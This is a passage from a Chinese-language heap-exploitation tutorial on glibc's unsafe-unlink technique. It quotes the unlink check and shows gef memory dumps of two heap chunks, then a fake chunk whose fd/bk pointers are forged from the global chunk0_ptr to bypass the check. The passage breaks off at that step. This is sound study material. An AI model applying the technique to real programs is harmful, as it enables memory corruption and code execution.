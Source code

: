 ```c
                  }							      \
              } else {							      \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;		      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;		      \
              }								      \
          }								      \
      }									      \
}
```

在解链操作之前，针对堆块 P 自身的 fd 和 bk 检查了链表的完整性，即判断堆块 P 的前一块 fd 的指针是否指向 P，以及后一块 bk 的指针是否指向 P。

malloc\_size 设置为 0x80，可以分配 small chunk，然后定义 header_size 为 2。申请两块空间，全局指针 `chunk0_ptr` 指向 chunk0，局部指针 `chunk1_ptr` 指向 chunk1：

```text
gef➤  p &chunk0_ptr
$1 = (uint64_t **) 0x601070 <chunk0_ptr>
gef➤  x/gx &chunk0_ptr
0x601070 <chunk0_ptr>:  0x0000000000602010
gef➤  p &chunk1_ptr
$2 = (uint64_t **) 0x7fffffffdc60
gef➤  x/gx &chunk1_ptr
0x7fffffffdc60: 0x00000000006020a0
gef➤  x/40gx 0x602010-0x10
0x602000:   0x0000000000000000  0x0000000000000091  <-- chunk 0
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000000
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
0x602080:   0x0000000000000000  0x0000000000000000
0x602090:   0x0000000000000000  0x0000000000000091  <-- chunk 1
0x6020a0:   0x0000000000000000  0x0000000000000000
0x6020b0:   0x0000000000000000  0x0000000000000000
0x6020c0:   0x0000000000000000  0x0000000000000000
0x6020d0:   0x0000000000000000  0x0000000000000000
0x6020e0:   0x0000000000000000  0x0000000000000000
0x6020f0:   0x0000000000000000  0x0000000000000000
0x602100:   0x0000000000000000  0x0000000000000000
0x602110:   0x0000000000000000  0x0000000000000000
0x602120:   0x0000000000000000  0x0000000000020ee1  <-- top chunk
0x602130:   0x0000000000000000  0x0000000000000000
```

接下来要绕过 `(P->fd->bk != P || P->bk->fd != P) == False` 的检查，这个检查有个缺陷，就是 fd/bk 指针都是通过与 chunk 头部的相对地址来查找的。所以我们可以利用全局指针 `chunk0_ptr` 构造 fake chunk 来绕过它：

```text
gef➤  x/40gx 0x602010-0x10
0x602000:   0x0000000000000000  0x0000000000000091  <-- chunk 0
0x602010:   0x0000000000000000  0x0000000000000000  <-- fake chunk P
0x602020:   0x0000000000601058  0x0000000000601060      <-- fd, bk pointer
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
0x602080:   0x0000000000000000  0x0000000000000000
0x602090:   0x0000000000000080  0x0000000000000090  <-- chunk 1 <-- prev_size
0x6020a0:   0x0000000000000000  0x0000000000000000
0x6020b0:   0x0000000000000000  0x0000000000000000
0x6020c0:   0x0000000000000000  0x0000000000000000
0x6020d0:   0x0000000000000000  0x0000000000000000
```